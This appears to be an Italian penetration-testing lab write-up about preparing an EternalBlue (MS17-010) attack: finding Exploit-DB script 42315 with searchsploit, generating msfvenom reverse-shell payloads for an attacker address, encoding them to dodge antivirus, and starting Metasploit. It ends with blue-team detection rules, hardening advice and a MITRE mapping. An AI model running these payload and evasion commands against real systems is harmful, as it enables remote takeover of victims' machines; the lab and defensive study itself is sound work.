





> [English](README.en.md) | **Italiano**

# Analisi e Preparazione Exploit

> - **Fase:** Vulnerability Assessment - CVE Analysis (Exploit Research)
> - **Visibilita:** Zero - searchsploit interroga il database locale offline (Exploit-DB); msfvenom genera payload localmente senza comunicazione di rete verso il target
> - **Prerequisiti:** Kali Linux con Exploit-DB aggiornato (`searchsploit -u`); msfvenom/Metasploit Framework installato; CVE identificata da precedente scanner (es. VULN-002)
> - **Output:** Disponibilita exploit pubblici verificata per CVE-2017-0144 (MS17-010); payload reverse TCP generato con msfvenom; analisi del codice sorgente dell'exploit

Strumenti: Searchsploit, Msfvenom

---

## 1 Introduzione Teorica

Searchsploit è lo strumento standard per la ricerca offline nell'archivio di Exploit-DB.
Durante un Penetration Test, dopo aver identificato una vulnerabilità e calcolato il suo rischio (CVSS), il passo successivo è verificare l'esistenza di Public Exploits (PoC).
L'utilizzo di Searchsploit garantisce la possibilità di operare in ambienti isolati (air-gapped) e di accedere rapidamente al codice sorgente degli exploit per l'analisi e l'adattamento.

Se il CVSS ti dice "Quanto è grave il problema", Searchsploit ti dice "Esiste già un codice pronto per sfruttarlo?"

---

## 2 Ricerca Exploit (Searchsploit)

Utilizzando il database locale di Exploit-DB, è stata effettuata una ricerca per la vulnerabilità MS17-010.

Comando:

```Bash
sudo searchsploit -u    # aggiorna il database
searchsploit MS17-010   # cerca exploit per la vulnerabilità EternalBlue 
```



Risultato: È stato identificato lo script `windows/remote/42315.py` come candidato ideale, in quanto supporta Windows 10 e Windows Server 2016.

Acquisizione (Mirroring): L'exploit è stato copiato nella directory di lavoro per l'analisi.

```Bash
searchsploit -m 42315
```



---

## 3 Analisi del Codice Sorgente

Prima dell'utilizzo, il codice è stato ispezionato per comprendere il funzionamento e identificare i parametri configurabili.

Comando:

```Bash
ls -l 42315.py
head -n 10 42315.py
```



Osservazioni: Lo script è scritto in Python e utilizza la libreria impacket per manipolare i pacchetti SMB. Richiede la sostituzione dello shellcode di default con uno shellcode specifico per il nostro target.

---

## 4 Generazione del Payload (Weaponization)

Per trasformare l'exploit in uno strumento offensivo efficace, è necessario generare uno Shellcode personalizzato. È stato scelto un payload di tipo Reverse TCP, che istruisce la vittima a connettersi alla macchina attaccante (bypassando i firewall in ingresso).

Comando Msfvenom:

```Bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f python
```

- `-p windows/x64/shell_reverse_tcp`: Payload per Windows a 64-bit che offre una shell di comando remota.
- `LHOST=10.0.2.15`: Indirizzo IP della macchina attaccante (Kali).
- `LPORT=4444`: Porta di ascolto.
- `-f python`: Formato di output compatibile con lo script dell'exploit.

Output Generato:



Analisi del Payload: Il blocco di codice generato (buf) contiene le istruzioni macchina (Assembly) che verranno eseguite in memoria dalla vittima dopo il successo dell'exploit EternalBlue, garantendo l'accesso remoto al sistema.

#### Exploitation

Adesso arriva la parte più divertente. Abbiamo visto che modificare lo script Python a mano è difficile e rischioso. Per questo motivo, nel mondo reale si usano i Framework di Exploitation. Il re indiscusso è Metasploit Framework.

Metasploit automatizza tutto quello che abbiamo appena fatto a mano:
- Trova l'exploit giusto.
- Genera lo shellcode (payload) da solo.
- Lo inietta nella memoria della vittima in modo (abbastanza) stabile.
- Gestisce la connessione di ritorno (Reverse Shell).

Sei pronto a prendere il controllo di Windows 10?
Passo 1: Preparazione di Metasploit

Apri un terminale su Kali e segui questi passaggi.

1. Inizializza il Database Metasploit usa un database per cercare velocemente (come searchsploit). Va avviato prima.

```Bash
sudo msfdb init
```

2. Avvia la Console Questo aprirà la famosa interfaccia a riga di comando col logo "tamarro".

```Bash
msfconsole
```

3. Cerca EternalBlue Dentro la console di Metasploit (che ora ha un prompt tipo msf6 >), cerca l'exploit.

```Bash
search eternalblue
```



---

## 5 Conclusioni

L'attività ha dimostrato come passare dalla teoria alla pratica nell'analisi delle vulnerabilità. Sebbene l'esecuzione di exploit kernel-mode (come EternalBlue) tramite script manuali sia complessa e rischiosa (potenziale crash del sistema), la capacità di generare shellcode personalizzati con msfvenom è il primo passo fondamentale per la fase di Exploitation.

Il prossimo step logico prevede l'utilizzo di framework automatizzati come Metasploit per gestire l'attacco in modo più stabile e controllato.

---

## 6 Approfondimento Tecnico

Nota: Durante l'analisi è emerso che l'esecuzione diretta dello script (`python 42315.py`) non è sufficiente per condurre un attacco con successo. Di seguito l'analisi tecnica delle motivazioni.

1. Il Codice Pubblico è solo un "Modello" (Template)
Gli exploit pubblici (Exploit-DB) sono spesso privi di payload offensivi specifici o contengono parametri generici.
- Target IP: Lo script originale non conosce la vittima (spesso usa IP placeholder come `192.168.1.1`).
- Payload Mancante: Lo script originale spesso esegue azioni benigne (es. aprire la calcolatrice o crashare il sistema) come Proof of Concept (PoC). Per ottenere accesso remoto, è necessario iniettare uno Shellcode (generato con Msfvenom) che sostituisca il codice originale.

2. Valore per il Penetration Tester
Anche se incompleto, il codice sorgente è fondamentale per:
- Validazione (PoC): Verificare se una vulnerabilità segnalata da uno scanner (es. OpenVAS) è reale o un falso positivo.
- Evasione: Modificare il comportamento del codice per aggirare firme IDS/IPS o Antivirus.
- Comprensione: Analizzare la logica dell'attacco per scrivere regole di difesa mirate.

---

## Analisi a Basso Livello: Dall'Exploit Pubblico al Payload Funzionante

### Anatomia di un Exploit Pubblico (EDB-42315)

L'exploit 42315.py per EternalBlue e un esempio rappresentativo della struttura di un exploit pubblico:

```python
# Struttura semplificata dell'exploit
class EternalBlue:
    def __init__(self, target_ip, shellcode):
        self.target = target_ip
        self.port = 445

    def exploit(self):
        # Fase 1: Connessione SMB e negoziazione
        sock = socket.connect((self.target, self.port))
        negotiate_smb(sock)

        # Fase 2: Invio buffer malformato (trigger vulnerabilita)
        # Il buffer sfrutta un integer overflow nella gestione
        # delle Transaction2 Request del driver srv.sys
        trans2_packet = build_exploit_buffer()    # <-- qui sta la vulnerabilita
        sock.send(trans2_packet)

        # Fase 3: Overwrite del puntatore di funzione in kernel memory
        # srv.sys sovrascrive un indirizzo di ritorno sullo stack
        # con l'indirizzo dello shellcode in memoria

        # Fase 4: Esecuzione shellcode (il nostro payload msfvenom)
        # Il kernel esegue lo shellcode con privilegi SYSTEM
```

### Msfvenom: Struttura del Payload

Il comando `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f python` genera un blob binario con questa struttura:

```
Shellcode generato (~460 bytes):
+------------------------------------------+
| Stub di decodifica (decoder)             |  ~30 bytes
| - XOR/shikata_ga_nai per evadere AV      |
+------------------------------------------+
| Risoluzione API (PEB walking)            |  ~80 bytes
| - Trova kernel32.dll in memoria          |
| - Risolve LoadLibraryA, GetProcAddress   |
+------------------------------------------+
| Caricamento ws2_32.dll (Winsock)         |  ~40 bytes
| - WSAStartup, WSASocketA                 |
+------------------------------------------+
| Connessione reverse TCP                  |  ~60 bytes
| - connect() verso LHOST:LPORT           |
+------------------------------------------+
| Creazione processo cmd.exe               |  ~50 bytes
| - CreateProcessA con stdin/stdout        |
|   rediretti verso il socket              |
+------------------------------------------+
```

**Formato `-f python`:** genera il payload come variabile Python `buf = b"\xfc\x48\x83..."` direttamente inseribile nello script exploit. Altri formati comuni: `-f exe` (eseguibile standalone), `-f raw` (binario grezzo), `-f c` (array C).

### Encoder e Evasione AV

```Bash
# Payload base (facilmente rilevato da AV)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f exe -o basic.exe

# Payload con encoder shikata_ga_nai (offuscamento XOR polimorfico)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 \
  -e x64/xor_dynamic -i 5 -f exe -o encoded.exe

# Nota: gli encoder di msfvenom sono insufficienti contro AV moderni (2025-2026)
# che usano behavior analysis, non solo signature matching.
# Tool moderni: Sliver, Havoc C2, custom loaders con syscall dirette
```

---

## Blue Team: Detection di Exploit Research e Payload Staging

### Indicatori di Weaponization

La fase di exploit research e payload generation non genera traffico di rete verso il target, ma lascia tracce locali:

- **File system:** presenza di `.py`, `.rb`, `.c` exploit nella home dell'attaccante, output `msfvenom` (`.exe`, `.elf`, `.bin`)
- **Process monitoring:** esecuzione di `msfvenom`, `msfconsole`, `searchsploit` - processi noti negli IOC di molti EDR
- **Network (fase successiva):** la reverse shell generata con `LHOST=10.0.2.15 LPORT=4444` creera una connessione TCP outbound dalla vittima verso la porta 4444 - porta nota come default Metasploit

### Regole di Detection per la Reverse Shell

```
# Regola Suricata per rilevare Meterpreter reverse TCP handshake
alert tcp $HOME_NET any -> $EXTERNAL_NET 4444 (
    msg:"ET TROJAN Possible Meterpreter Reverse Shell";
    content:"|00 00 00|";
    depth:3;
    classtype:trojan-activity;
    sid:2024001;
)
```

### Hardening: Ridurre la Superficie per gli Exploit Pubblici

- **Patch management:** il 90% degli exploit su Exploit-DB sfrutta vulnerabilita con patch disponibile da mesi o anni
- **Application whitelisting:** bloccare l'esecuzione di binari non firmati (AppLocker, WDAC) impedisce l'esecuzione di payload msfvenom
- **Outbound filtering:** bloccare connessioni verso porte non standard (4444, 8080, 1234) riduce l'efficacia delle reverse shell

---

## Esperienza di Laboratorio

L'analisi del codice sorgente di 42315.py ha rivelato un aspetto non documentato nei tutorial: l'exploit richiede la libreria `impacket` per la manipolazione dei pacchetti SMB a basso livello. Senza impacket, lo script fallisce con un ImportError. Questo e un esempio di come gli exploit pubblici spesso hanno dipendenze non dichiarate che richiedono troubleshooting.

La generazione del payload con msfvenom e stata istantanea (~2 secondi), ma la comprensione di cosa fa e critica: il flag `-f python` non genera uno script Python eseguibile, ma un blob binario formattato come variabile Python da copiare dentro l'exploit. La confusione tra "formato di output" e "linguaggio di programmazione" e un errore comune per chi inizia.

Il passaggio concettuale piu importante e stato capire che searchsploit (ricerca), msfvenom (weaponization) e Metasploit (exploitation) sono tre fasi distinte della kill chain: trovare l'exploit, preparare il payload, eseguire l'attacco. La decisione di passare da exploit manuale a Metasploit Framework per l'exploitation finale e stata motivata dalla stabilita: un exploit kernel-mode manuale puo crashare il target (BSOD), mentre il modulo Metasploit include check pre-exploitation e gestione degli errori.

---

## Mappatura MITRE ATT&CK

| Tattica | Tecnica | ID MITRE | Descrizione dell'Azione |
| :--- | :--- | :--- | :--- |
| Resource Development | Obtain Capabilities: Exploits | `T1588.005` | Ricerca e mirroring dell'exploit pubblico MS17-010 (EDB-ID 42315) tramite `searchsploit -m 42315`; analisi del codice sorgente Python per comprenderne il funzionamento. |
| Resource Development | Develop Capabilities: Exploits | `T1587.001` | Generazione di shellcode personalizzato con `msfvenom` (payload `windows/x64/shell_reverse_tcp`) per adattare l'exploit generico al target specifico. |

---

> **Nota:** Le tecniche di exploit generation documentate (searchsploit, msfvenom) sono state eseguite in ambiente di laboratorio virtualizzato. La generazione di payload offensivi e l'analisi di exploit pubblici sono attivita didattiche svolte esclusivamente su sistemi di proprieta dell'autore. Nessun exploit e stato lanciato contro sistemi di terze parti.